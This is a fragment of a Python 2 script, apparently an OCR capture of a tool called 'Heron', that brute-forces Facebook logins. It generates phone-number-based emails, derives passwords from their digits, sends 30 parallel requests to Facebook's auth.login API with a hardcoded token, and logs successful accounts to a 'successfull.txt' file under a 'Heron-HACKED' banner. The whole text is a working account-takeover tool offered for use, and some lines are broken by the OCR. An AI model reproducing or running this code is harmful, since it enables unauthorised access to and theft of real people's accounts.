     def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
 
        try:
            result = k + c + user
            digi6 = result[8:14]
            pass1 = digi6
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[Heron-HACKED]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '|' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[Heron-CP]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\x1b[1;92m \x1b[0m \n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '|' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
        except:
            pass
 
    p = ThreadPool(30)
    p.map(main, id)
    print
    50 * '-'
    print
    print
    '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 Heron.py')
 
 
if __name__ == '__main__':
    menu()

